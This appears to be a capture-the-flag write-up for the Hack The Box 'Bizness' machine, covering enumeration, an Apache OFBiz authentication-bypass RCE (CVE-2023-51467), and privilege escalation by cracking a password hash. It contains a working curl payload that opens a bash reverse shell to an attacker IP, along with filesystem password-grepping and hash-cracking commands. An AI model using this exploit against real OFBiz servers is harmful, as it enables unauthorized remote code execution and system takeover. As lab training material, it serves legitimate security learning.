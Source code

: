 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🔍 Enumeration

```bash
nmap -p- -T4 10.10.11.X
```

> Port [80](HTTP) was open and used for further exploitation.

---

## 🗂️ Hosts File Update

```bash
sudo nano /etc/hosts
```

Add:

```text
10.10.11.X  bizness.htb
```

---

## 🕵️ Directory Enumeration

```bash
dirsearch -u http://bizness.htb
```

> Revealed `/control/login` and other routes.

---

## 🔐 Authentication Discovery

> Manual testing in browser showed:
- `"admin"` = valid username
- gibberish usernames = `"User does not exist"`

---

## 💥 Initial Foothold - Apache OfBiz RCE (CVE-2023-51467)

### Payload (Groovy Sandbox RCE):

```bash
curl -kv -H "Host: bizness.htb:443" \
-d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >& /dev/tcp/10.10.16.98/1234 0>&1;';x.execute();" \
"https://bizness.htb:443/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

> `bash reverse shell` sent via vulnerable Groovy context.  
> `curl` is used since `wget` is blocked.

---

## 📞 Set Up Listener

```bash
nc -lvnp 1234
```

---

## 🧑‍💻 Gained Shell as `ofbiz`

```bash
whoami
cat /etc/passwd
ls /home
cat user.txt
```

---

## ⬆️ Privilege Escalation

### 🔎 Grep for Passwords

```bash
grep -arin -o -E '(\w+\W+){0,5}Password(\w+\W+){0,5}' /
```

> Discovered:
- `Adminuserlogindata.xml`
- `c54d0.dat` (contains salted SHA1 hash)

---

## 🔓 Crack OfBiz SHA1 Password

### Clone Cracker Tool

```bash
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
cd Apache-OFBiz-SHA1-Cracker
```

### Use RockYou Wordlist

```bash
python3 crack.py -w /usr/share/wordlists/rockyou.txt -H <hash>
```

> Recovered password: `monkeybizness`

---

## 🔐 [SSH](SSH) as Root

```bash
ssh root@bizness.htb
```

> Used cracked password from the OfBiz hash.

---

## 🏁 Get Root Flag

```bash
cat /root/root.txt
```